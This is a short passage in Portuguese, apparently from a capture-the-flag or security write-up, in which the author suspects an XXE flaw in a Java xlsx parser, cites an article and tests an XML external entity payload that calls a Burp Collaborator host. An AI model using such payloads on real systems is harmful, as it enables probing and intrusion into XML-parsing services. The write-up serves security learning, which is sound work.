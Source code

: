  

![Untitled](/assets/planilhasbaby/Untitled%205.png)

Quando vi esses arquivos fiquei pensando se não seria possível utilizar algumas payloads de XXE (XML External Entity).

Rapidamente encontrei alguns artigos falando sobre uma vulnerabilidade de XXE que um "interpretador" de xlsx em java possui.

[https://www.4armed.com/blog/exploiting-xxe-with-excel/](https://www.4armed.com/blog/exploiting-xxe-with-excel/)

Então comecei a testar algumas payloads.

```xml
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://jg315q2pvolex6xv5nvtaocgn7tyhn.burpcollaborator.net/"> ]>
<x>&xxe;</x>
```

![Untitled](/assets/planilhasbaby/Untitled%206.png)

![Untitled](/assets/planilhasbaby/Untitled%207.png)
